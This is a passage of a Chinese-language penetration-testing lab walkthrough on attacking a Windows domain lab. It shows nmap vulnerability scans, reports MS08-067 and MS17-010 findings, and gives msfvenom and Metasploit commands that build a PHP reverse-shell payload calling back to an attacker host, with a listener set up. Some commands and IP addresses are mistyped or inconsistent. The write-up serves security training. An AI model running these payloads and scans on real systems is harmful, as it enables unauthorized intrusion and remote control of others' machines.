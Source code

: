 ![](32.png)

域成员：192.168.52.141

域控DC：192.168.52.138

### 4.5 内网漏洞扫描

前期我们获取到win7的远程桌面也可以通过远程发现win7主机上安装了nmap工具，我们可以进一步针对192.168.52.0/24内网网段进行漏洞信息收集
![](33.png)

```
nmap  --script-vlun -p 1-65535 192.168.52.141
```
![](34.png)
```
nmap  --script-vlun -p 1-65535 192.168.52.138
```

![](35.png)

也可以自己上传工具开展信息漏洞收集工作，我们使用上传的Ladon工具

![](36.png)



发现192.168.1.141存在漏洞：MS08-067、MS17-010，192.168.1.138存在MS17-010漏洞。

攻击思路：

1、我们可以直接全部使用MS17-010获取域成员和域控主机；

2、使用MS08-067获取域成员主机，然后使用横向移动【VMI利用】获取域控主机



## 0x05 横向渗透

### 5.1 MSF反弹shell

这里我们使用Kali的msf先反弹一个shell

```
#生成反弹shell文件
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f raw > shell.php

#在本机中设置监听

msfconsloe
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.1.101
set lport 4444
run
```
